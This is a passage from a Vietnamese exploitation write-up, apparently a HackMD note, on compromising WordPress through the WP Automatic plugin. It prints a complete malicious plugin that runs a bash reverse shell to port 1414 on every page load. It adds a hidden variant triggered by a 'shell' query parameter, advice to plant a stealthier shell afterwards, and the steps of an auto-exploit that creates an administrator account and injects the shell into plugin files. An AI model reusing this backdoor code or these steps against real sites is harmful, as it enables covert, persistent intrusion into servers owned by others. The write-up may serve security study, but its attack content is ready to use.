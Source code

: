 Việc bỏ payload vào file `footer.php` sẽ giúp shell được gửi về mỗi khi file `footer.php` được load. Đồng thời sẽ gây chú ý hơn nhiều vì trang web sẽ đợi khi nào interactive shell kết thúc mới trả về trang web cho người dùng. => Nên dùng shell này để upload một shell khác ẩn hơn

### Tự tạo một plugin reverse shell

```php=
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1414 0>&1'");
```

Để biến file `reverse-php-shell.php` thành một plugin ta cần thêm vào đầu file một vài dòng comment. Sau đó zip file lại và upload plugin.

![image](https://hackmd.io/_uploads/By8OHFgf0.png)

Upload thành công thì bật netcat listener, sau đó chọn activate plugin.

Quan sát thấy shell đã được gửi về. Plugin đã được activate nên bất cứ khi nào trang web được load, shell cũng sẽ được gửi về cho hacker. Đồng thời sẽ gây chú ý hơn nhiều vì trang web sẽ đợi khi nào interactive shell kết thúc mới trả về trang web cho người dùng. => Nên dùng shell này để upload một shell khác ẩn hơn

:::info
:bulb: Ta có thể dùng đoạn mã như sau:

```php!
if (isset($_GET['shell'])) {
    exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1414 0>&1'");
}
```

để việc gửi shell về máy hacker khi tham số `shell` được gửi cho server
:::

## Script auto exploit

Ở đây mình sẽ viết một đoạn script để thực hiện tất cả các bước khai thác ở trên và trả về interective shell

1. Insert user mới (poc:poc) vào database 
2. Nâng quyền user vừa tạo thành Administrator
3. Đăng nhập 
4. Sử dụng chức năng chỉnh sửa plugin để chỉnh sửa file `index.php` trong plugin WP Automatic (lưu ý phải chỉnh sửa những file có thể truy cập được mà không cần đăng nhập)
5. Truy cập đến file `index.php` để kích hoạt reverse shell
